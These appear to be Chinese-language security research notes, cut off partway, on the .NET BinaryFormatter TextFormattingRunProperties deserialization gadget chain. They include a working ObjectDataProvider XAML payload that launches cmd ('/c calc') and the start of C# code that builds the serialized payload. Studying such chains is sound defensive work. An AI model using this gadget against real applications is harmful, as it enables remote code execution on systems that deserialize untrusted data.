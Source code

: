 
## BinaryFormatter

命名空间位于`System.Runtime.Serialization.Formatters.Binary`

### 反序列化链

yso中的很多gadget链都是由TextFormattingRunProperties链衍生的

#### TextFormattingRunProperties

限制条件：Microsoft.PowerShell.Editor.dll

```plain
该库是PowerShell的一部分，该PowerShell已预安装在从Windows Server 2008 R2和Windows 7开始的所有Windows版本中。
```

**调用的类** : TextFormattingRunProperties + ObjectDataProvider + Process

**思路**：我们在GetObjectData序列化时给ForegroundBrush字段赋值为`_xaml`的payload，并且将对象类型赋值为TextFormattingRunProperties类。因为在反序列化时触发TextFormattingRunProperties类的构造函数，而构造函数中，调用的`GetObjectFromSerializationInfo`,触发XamlReader.Parse(payload) ，就衔接上了ObjectDataProvider

**Sink关键点**：`XamlReader.Parse`

我们需要的就是传入的payload就是可以被`XamlReader.Parse`解析的ObjectDataProvider的xml

```plain
<?xml version="1.0" encoding="utf-16"?>
<ObjectDataProvider MethodName="Start" IsInitialLoadEnabled="False" xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" xmlns:sd="clr-namespace:System.Diagnostics;assembly=System" xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml">
  <ObjectDataProvider.ObjectInstance>
    <sd:Process>
      <sd:Process.StartInfo>
        <sd:ProcessStartInfo Arguments="/c calc" StandardErrorEncoding="{x:Null}" StandardOutputEncoding="{x:Null}" UserName="" Password="{x:Null}" Domain="" LoadUserProfile="False" FileName="cmd" />
      </sd:Process.StartInfo>
    </sd:Process>
  </ObjectDataProvider.ObjectInstance>
</ObjectDataProvider>
```

生成的payload:

```plain
using System;
using System.IO;
using System.Runtime.Serialization;
using System.Runtime.Serialization.Formatters.Binary;
using Microsoft.VisualStudio.Text.Formatting;
namespace BinaryFormatterSerialize
{
    [Serializable]
    public class TextFormattingRunPropertiesMarshal : ISerializable
    {
        protected TextFormattingRunPropertiesMarshal(SerializationInfo info, StreamingContext context)
        {
        }

        string _xaml;
        public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            Type typeTFRP = typeof(TextFormattingRunProperties);
            info.SetType(typeTFRP);
            info.AddValue("ForegroundBrush", _xaml);
        }
        public TextFormattingRunPropertiesMarshal(string xaml)
```